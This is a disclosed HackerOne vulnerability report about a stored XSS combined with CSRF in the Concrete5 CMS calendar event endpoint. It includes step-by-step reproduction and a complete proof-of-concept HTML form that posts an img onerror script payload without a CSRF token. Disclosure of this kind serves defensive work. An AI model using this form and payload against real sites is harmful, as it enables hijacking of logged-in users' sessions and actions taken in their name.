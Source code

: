 # Stored unauth XSS in calendar event via CSRF

## Report Details
- **Report ID**: 1102018
- **URL**: https://hackerone.com/reports/1102018
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-12T08:43:11.135Z
- **Disclosed**: 2021-10-15T16:38:25.115Z

## Reporter
- **Username**: d3addog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
** crayons **
##  Description
The `description` parameter in the scenario `/index.php/ccm/calendar/dialogs/event/add/save` is affected by Stored XSS due to lack of user supplied data filtration. Also in should be mentioned that this endpoint does not verify CSRF token `ccm_token`, which leads to an ability to perform CSRF attack using specially crafted web page.

## Testing setup :
Concrete5 CMS version: 8.5.4
PHP Version: 7.2.24

## Steps to reproduce
1) Login to your privileged account 
2) Create a web page containing following code (do not forget to change form action URL to your testing server)

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<YOUR CONCRETE5 TESTING SERVER IP>/index.php/ccm/calendar/dialogs/event/add/save" method="POST">
      <input type="hidden" name="caID" value="1" />
      <input type="hidden" name="name" value="csrf&#95;xss" />
      <input type="hidden" name="description" value="&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="cID" value="0" />
      <input type="hidden" name="event&#95;repetitionSetID&#91;&#93;" value="1234" />
      <input type="hidden" name="event&#95;repetitionID&#95;1234" value="0" />
      <input type="hidden" name="event&#95;pdStartDate&#95;pub&#95;1234" value="2&#47;12&#47;21" />
      <input type="hidden" name="event&#95;pdStartDate&#95;1234" value="2021&#45;02&#45;12" />
      <input type="hidden" name="event&#95;pdStartDateSelectTime&#95;1234" value="11&#58;00am" />
      <input type="hidden" name="publishAction" value="approve" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

3) Open the web page from Step 2 in the same browser, where you have logged in account from step 1 and click "Submit request" button
4) Navigate to calendar tab select created event and click "Details".
5) After opening "details" XSS will fired

## Credits
This bug was found as a part of Solar Security CMS Reseach, with https://hackerone.com/d0bby, https://hackerone.com/wezery0, https://hackerone.com/silvereniqma in collaboration. Can you, please, add them to this report?

## Impact

Malicious attacker can potentially obtain sensitive information or make action on user behalf.

## Attachments
- csrf_xss_events.png
